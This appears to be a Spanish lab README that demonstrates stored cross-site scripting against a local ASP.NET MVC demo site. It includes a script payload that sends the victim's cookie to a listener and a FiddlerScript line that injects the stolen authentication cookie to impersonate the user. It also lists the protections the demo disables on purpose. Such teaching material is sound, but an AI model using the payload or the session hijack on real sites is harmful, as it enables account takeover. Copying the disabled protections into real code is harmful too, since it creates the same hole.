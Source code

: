 # Procedimiento

1. Arrancamos el sitio web Victima.
2. Ejecutamos la aplicación Atacante.
	- Arranca un listener HTTP para atender a las peticiones forzadas en la victima, que recibirá y mostrará la solicitud de la víctima con la información confidencial.

3. Como usuario anónimo, en modo InPrivate, accedemos a Contact.
	- Introducimos en el campo vulnerable el siguiente código JavaScript: 
	```html
	<script>image = new Image(); image.src='http://localhost:50666/hack/?cookie='+document.cookie;</script>
	```
		
4. Nos autenticamos en la aplicación y accedemos a Contact.
	- Se captura la cookie de autenticación del usuario y se envía al atacante.
	
5. Arrancamos Fiddler y, en la pestaña FiddlerScript, modificamos el evento OnBeforeRequest para añadir la siguiente linea: 
```csharp
oSession.oRequest["Cookie"] = (oSession.oRequest["Cookie"] + ".AspNet.ApplicationCookie=XXX");
```
	- El usuario anónimo suplanta la identidad del usuario autenticado, mientras Fiddler inyecte la cookie de autenticación en la solicitudes.
	
Información

+ Para el renderizado se utiliza el helper @Html.Raw dado que, de no permitir renderizar HTML, se codificaría para mostrarlo como texto y no se procesaría.
+ La operación del controlador se marca con el atributo `[ValidateInput(false)]`. Por defecto, ASP.NET MVC protege contra el contenido potencialmente peligroso, como JavaScript.
+ Se establece CookieHttpOnly = false para la cookie de autenticación, o no podría ser accesible desde JavaScript.